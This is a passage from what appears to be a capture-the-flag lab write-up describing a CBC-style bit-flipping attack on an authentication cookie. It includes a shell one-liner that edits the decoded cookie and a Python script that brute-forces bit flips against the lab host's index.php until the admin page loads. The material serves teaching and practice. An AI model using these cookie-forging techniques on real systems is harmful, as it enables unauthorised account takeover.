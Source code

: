 

    root@kali# echo "jQHLsfJNbqtkfIJHOMKjgJBdENqKUpEA" | base64 -d | xxd | sed 's/ 38c2 / 38d2 /' | xxd -r | base64
    jQHLsfJNbqtkfIJHONKjgJBdENqKUpEA



If I add this cookie and visit `index.php`, it gives the admin page.

#### Exploit - Brute

More likely is that I don't know the structure of the underlying
plaintext. There could be more information in the cookie than just the
username. A more reliable attack is to brute over all the bits flipping
each to see if it works.

There's a way to do this attack using Burp Intruder, but I don't have a
copy of the pro version, and it's so throttled that I can write a script
to do it faster than running it. Here's my Python script to try flipping
each bit:



    #!/usr/bin/env python3

    import base64
    import requests


    def flip_bit(byte, pos):
        return byte ^ pow(2,pos)


    cookie = 'jQHLsfJNbqtkfIJHOMKjgJBdENqKUpEA'
    cookie_bin = base64.b64decode(cookie)

    for i in range(len(cookie_bin)):
        for j in range(8):
            mod_byte = flip_bit(cookie_bin[i], j)
            mod_cookie_bin = cookie_bin[:i] + bytes([mod_byte]) + cookie_bin[i+1:]
            mod_cookie = base64.b64encode(mod_cookie_bin).decode()
            resp = requests.get('http://10.10.10.18/index.php', cookies={'auth': mod_cookie})
            if 'admin' in resp.text:
                print(f'Flip byte {i}, xor by 0x{pow(2,j):02x} - new cookie: {mod_cookie}')
                exit()



I created a helper function `flip_bit` which takes a byte and a position
(0-7) and returns that byte with the bit in that one position flipped.
It relies on the fact that the powers of two are words with a single bit
on:

  --- ----------- ----- -----------
  1   0000 0001   16    0001 0000
  2   0000 0010   32    0010 0000
  4   0000 0100   64    0100 0000
  8   0000 1000   128   1000 0000
  --- ----------- ----- -----------

